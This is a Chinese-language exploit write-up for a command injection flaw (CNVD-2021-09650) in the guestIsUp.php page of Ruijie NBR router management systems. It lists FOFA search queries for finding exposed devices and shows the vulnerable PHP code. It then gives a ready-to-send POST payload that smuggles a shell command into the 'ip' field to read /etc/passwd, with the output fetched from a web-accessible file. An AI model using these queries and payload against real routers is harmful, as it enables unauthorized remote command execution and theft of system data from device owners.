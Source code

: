# 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现



![img](../../../.vuepress/public/img/ruijie-6.png)



出现漏洞的文件在 **/guest_auth/guestIsUp.php**



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



这里看到通过命令拼接的方式构造命令执行，



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



然后访问页面 **/guest_auth/test.txt** 就可以看到命令执行的结果



![img](../../../.vuepress/public/img/ruijie-5.png)



## 